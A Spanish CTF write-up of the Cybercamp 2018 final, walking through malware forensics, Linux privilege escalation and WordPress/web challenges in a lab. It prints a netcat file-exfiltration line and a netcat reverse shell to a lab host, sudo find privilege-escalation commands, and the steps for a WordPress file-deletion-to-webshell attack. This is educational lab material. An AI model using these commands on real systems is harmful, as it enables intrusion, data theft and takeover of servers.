

# Cybercamp Final 2018

## Retos

Dentro del CTF teníamos 3 caminos diferentes a seguir. Aunque la mayor parte de los retos estaba categorizado como *Otros*, voy a darle una categoría a cada bloque en base al tema principal de cada una.

## Parte 1 - Forense y Reversing en Windows


## Parte 2 - Elevaciones de Linux (IdeaFeliz/Reversing/Exploiting/Pwning)


## Parte 3 - Web


## Red


El esquema de la red interna para cada participante es el siguiente, a través del navegador tenemos acceso directo a una maquina Windows y otra con Kali Linux.

### Máquina Windows
```
IP: 192.168.2.21
AliceMiller : r7dT58AQgp
```

Esta maquina dispone de algunas herramientas de reversing.
* IDA Freeware 5.0
* x86dbg
* API Monitor
* Sysinternals Process Monitor
* NoVirusThanks MD5 Checksum tool

Por defecto el layout del teclado estaba configurado en americano, aunque en un principio no es demasiado problema, tras varias horas cambiando entre maquinas y layout se hace pesado y confuso.


### Máquina Kali Linux
```
IP: 192.168.2.1
root : toor
```

Se trata de una máquina Kali Linux con el escritorio GNOME (a mi parecer bastante pesado y incomodo para utilizar en una máquina virtual).

En este equipo no se apreció que se hubieran instalado herramientas adicionales, echando de menos algunas herramientas que considero básicas, y algunas no tan básicas, pero que son bastante utiles (ftp, strace, ltrace, gdb-peda, gdb-gef).

También cabe destacar que si dejábamos la maquina sin usar, llegaba a bloquearse la pantalla, incluso amenazaba con suspenderse por inactividad.


## Reto 1 - Follow my steps!

Nos piden encontrar un malware y el vector de infección utilizado. La flag tiene el formato `software_MD5(malware)`

Utilizamos la herramienta *NoVirusThanks* para realizar el md5 del archivo, además observamos que el malware se ha descargado a través de correo electrónico, concretamente de la aplicación *thunderbird*.


FLAG: `thunderbird_BC22535549AA976BAF941D0D62B4E548`


## Bonus - Descargar el binario

En esta prueba se ha utilizado una cuenta de *outlook.com* como correo y nos dan usuario y contraseña para acceder a ella.
Por lo tanto es posible acceder directamente con nuestro equipo a <https://outlook.live.com> y descargar el binario.


Por alguna extraña razón, aunque todos los emails son completamente iguales a los que ya había descargados en thunderbird, el hash MD5 del archivo no coincide con el descargado en la máquina del reto, ni con el que aparece en thunderbird.


## Reto 2 - I'll persist!

Buscar la clave y valor utilizado para persistencia.

Los términos *clave* y *valor* nos pueden servir de pista para intuir que nos están pidiendo datos del registro de windows. Para encontrar la solucion hay varias formas de abordar el problema, desde buscar el nombre del ejecutable en el registro, a mirar manualmente en los diferentes directorios *Run*, o incluso utilizar la herramienta `msconfig` para ver de un vistazo toda la configuración de *Inicio*.


FLAG: `exe_C:\Users\AliceMiller\Downloads\system_management_1.exe`


## Reto 3 - Where do I hide your info?
```
Se sabe que el malware envía datos a un servidor remoto. Hay que buscar la dirección IP
del servidor donde los archivos están exfiltrados.
```

Dentro de las strings del binario se puede ver rápidamente la IP a la que se conecta.

FLAG: `80.127.56.101`


## Reto 4 - Get my secret!

```
Cual es la contraseña utilizada por el malware para exfiltrar los datos? Se deben obtener
las credenciales empleadas para enviar los ficheros exfiltrados al servidor del atacante.
El flag es el usuario, seguido por el carácter "_", seguido por la contraseña.

Pista 1:
Pista 2:
Pista 3: Hex
```

Este reto se podía resolver de multiples formas con las herramientas disponibles. Incluso alguno de los participantes utilizó meterpreter contra la propia maquina para analizar el trafico y obtener estas credenciales.

La forma mas 'sencilla' era utilizar *API Monitor*, con el detalle de que si no la lanzamos con privilegios de administrador parece ser que no funciona ya que no captura ningún evento.

Otro detalle para poder capturar esta petición de autenticación era borrar la clave de registro encontrada en el reto 2, ya que si esta clave existía el malware no volvía a actuar.


FLAG: `ileacorp_3ThGAxM9y5`


## Reto 5 - Decrypt me!

```
Descubre la contraseña de cifrado de los archivos exfiltrados.
```

Utilizando *x64dbg* debíamos analizar la función que decodificaba/transformaba la clave que se encontraba en los strings del archivo, junto a la dirección IP. Hay que detallar que esta función modifica mínimamente esta string, por lo que si no estamos atentos podemos pensar que se trata de la misma.

La captura de pantalla siguiente corresponde al mismo proceso, pero aplicado a la contraseña del reto 4. 


FLAG: `g58pfv5s3rl60dwk`


## Reto 6 - Get me!
```
El objetivo es encontrar el fichero flag en la máquina del atacante.
```

En primer lugar hacemos un escaneo de puertos a la maquina objetivo y descubrimos los servicios *ftp* y *http*.


En el servicio *HTTP* tenemos un index.php que nos redirige a logs.php, pero únicamente a partir de las 16:00 horas, si accedíamos antes de esta hora se nos redirigía otra vez a index, aunque seguía devolviendo el contenido de la pagina con el listado de directorios. Entonces, desactivando las redirecciones, por ejemplo con Burp Suite, hubiéramos podido acceder antes de las 16:00.

El contenido que encontramos es el ZIP que exfiltra el malware analizado anteriormente, y el contenido descomprimido. Por lo que rápidamente llegamos a la deducción de que si subimos un zip con una webshell, conseguiremos ejecución de comandos en ese servidor.

Uno de mis fallos fue no hacer un fingerprint de versiones con nmap (opción -sV), ya que hubiera visto que la versión del servidor FTP era `Proftpd 1.3.5`, que permite automaticamente subir una webshell.


Dado que los datos se cifraban antes de subirse, era necesario conseguir las credenciales del FTP antes de poder solucionar este reto utilizando esta metodología.

Una vez tenemos las credenciales, tenemos una pequeña complicación técnica, la máquina Kali Linux no tiene la herramienta `ftp` instalada, y por lo que yo se, ningñun gestor de FTP por defecto, exceptuando posiblemente algún modulo *auxiliary* de metasploit. 

Por otro lado, en la máquina windows si es posible utilizar el FTP nativo de explorador de archivos, pero no tenemos la opción de comprimir ficheros, o al menos yo no la encontré en el menu "Enviar a".

En ese momento lo que pensé fue en comprimir la webshell con Linux, utilizar `python -m SimpleHTTPServer` para compartir archivos y subirlos a través de la máquina windows.

Una vez hecho este proceso, el archivo ZIP se descomprime y tenemos una webshell funcional.


Investigamos la máquina y transferimos los archivos que nos parecen interesantes, por ejemplo un binario con nombre *decrypt*.

```
cat [FILE] | nc 192.168.2.16 3000
```


Tras no encontrar demasiada información útil, ni la flag, utilizamos la webshell para establecer una shell reversa y la convertimos en interactiva para poder utilizar `su`.

Tras acceder como el usuario *ileacorp*, utilizamos `sudo -l` y encontramos que es posible utilizar *find*.


Usamos find para buscar archivos en `/root/` y encontramos `/root/.flag`, leemos su contenido
```
sudo find /root/.flag -exec cat {} \;
```

Aunque no es necesario conseguir una shell de root para este reto, para el siguiente reto si es necesario elevar
```
sudo find . -exec /bin/bash \;
```

FLAG: `congratz`


## Reto 7 - Open Sesamus!
```
El objetivo es identificar la ip de backup server y conseguir el acceso a dicha máquina. El flag es el nombre del usuario, seguido de "_" y el password de dicha máquina. Ejemplo: usuario_password
```

Todos estos datos se encuentran en el directorio `/home/bad-guy/.cache/vmware/drag_and_drop/` en el que se guardan los archivos transferidos a la máquina virtual a través de las VMware tools.


FLAG: `bad-backup_a3b90vfrdjk5slmq`


## Reto 8 - Locate Me!

```
El reto consiste en identificar la posible localización desde la cual se sospecha
que el hacker está realizando las actividades maliciosas.

Maquina del reto: Backup 80.127.56.101

Formato de flag: XXºXX'XX"XXºXX'XX.XX"X
```

Aunque fui capaz de sacar 2 imágenes con metadatos de localización, el verdadero reto era conseguir acertar el formato de flag a partir de los datos de la herramienta *exif*.

Una de estas imágenes se encontraba en el directorio de cache de vmware, y la otra es la que se encontraba en el home de la web. Aunque las 2 imágenes eran iguales, los metadatos no eran iguales.

Asumimos que al ser un reto bloqueante, necesitamos haber conseguido privilegios en la maquina y por tanto la correcta es la que se encuentra en la cache del usuario *bad-guy*.


## Reto 9 - Starting Point

```
level0:level0
Pista 1: Todo recurso tiene su origen.
```

Este primer reto consiste en elevar de level0 a level2 en una máquina a la que se accede por SSH.

```bash
scp level0@192.168.2.23:/home/level0/cybercamp.jpg .
```


En este reto me quedé atascado, según otros participantes había que adivinar la contraseña de `steghide` de la imagen para obtener algo escondido. 

Podríamos categorizar este reto en la categoría "IdeaFeliz".

Además, existía un bug en esta máquina que permitía escalar privilegios a root desde el usuario level0. Sacando de golpe los 8 retos y mas de 2000 puntos por una sola explotación.


## Reto 17 - No te pases de Hacker

```
Un grupo hactivista ha estrenado una nueva web para organizar y realizar sus futuros ataques. Estás colaborando con las fuerzas y cuerpos de seguridad del estado para descubri más a cerca de este peligroso grupo hacktivista y te han pasado la información de que en su servidor un usuario esconde información valiosa ¿serás capaz de recuperarla?

Formato flag: flag{text}

Respuesta: text.

Maquina: 192.168.2.24

Credenciales

VM17 user: cybercamp
VM17 password: tss2018TSS!
```



La web a analizar se trata de un wordpress versión 4.9.6. Lanzamos `wpscan` y encontramos una vulnerabilidad de borrado de archivos para usuarios autenticados.

Como es posible registrarse, creamos un nuevo usuario y utilizamos la siguiente guia para conseguir eliminar el archivo *wp-config.php* y poder reinstalar wordpress.

<https://blog.vulnspy.com/2018/06/27/Wordpress-4-9-6-Arbitrary-File-Delection-Vulnerbility-Exploit/>


El proceso consiste en subir una imagen, modificar la ruta de su thumbnail con el parámetro *thumb*, y despues eliminar la imagen. La dificultad era utilizar correctamente los tokens anti CSRF de wordpress `_wpnonce` que cambian en cada petición. Al final, la metodología que utilicé, fue interceptar con *Burp Suite* una petición legitima y modificar los parámetros en ese momento al vuelo.


Una vez hemos eliminado la configuración de Wordpress, necesitamos conocer las credenciales de la base de datos para volver a configurarlo. Aunque quizá estas credenciales fueran fáciles o por defecto, preferí invertir el tiempo en hacer algo que sabia 100% que funcionaría, configurar una base de datos localmente en kali lunux.


<https://www.digitalocean.com/community/tutorials/crear-un-nuevo-usuario-y-otorgarle-permisos-en-mysql-es>

```
CREATE user 'wordpress'@'%' IDENTIFIED BY 'passsword123';
CREATE database wordpress;
GRANT ALL PRIVILEGES ON * . * TO 'wordpress'@'%';
FLUSH PRIVILEGES;
```

Ademas debemos modificar la configuración de *mysql* para que escuche en todas las interfaces, comentando `listen 127.0.0.1`, y posteriormente reiniciar el servicio.

Una vez tenemos montada la base de datos, podemos proceder a instalar wordpress.


Y ya tenemos el *PATATAS BLOG* montado.


Una vez ya somos administradores de Wordpress, utilizamos el editor de plugins para modificar uno de ellos y sustituirlo por una webshell.


Inyectamos el siguiente comando para establecer una conexión reversa, añadimos la redirección de STDERR para visualizar cualquier error, como por ejemplo, que no exista la opción `-e` en esta versión de *netcat*.
```bash
nc -e /bin/bash 192.168.2.16 3000 2>&1
```


FLAG: `b58706bbf7ec1046a7dcfdea5395d8b9`


## Reto 18 - All your phones belong to us

```
NOTA: Fichero /root/flag.txt
```


Utilizando nikto encontramos que el directorio `.git` es accesible.


Como este directorio tiene el Indexing habilitado no necesitamos utilizar [GitDumper](https://github.com/internetwache/GitTools), en su lugar con `wget` recursivo descargamos todo el contenido del repositorio.
Una vez descargado, utilizamos `git checkout` para recuperar el estado del commit y con ello todos los archivos y directorios.

A partir de aquí el reto consistía en encontrar una vulnerabilidad analizando el código PHP, cosa que llevaba su tiempo y que no logré completar.

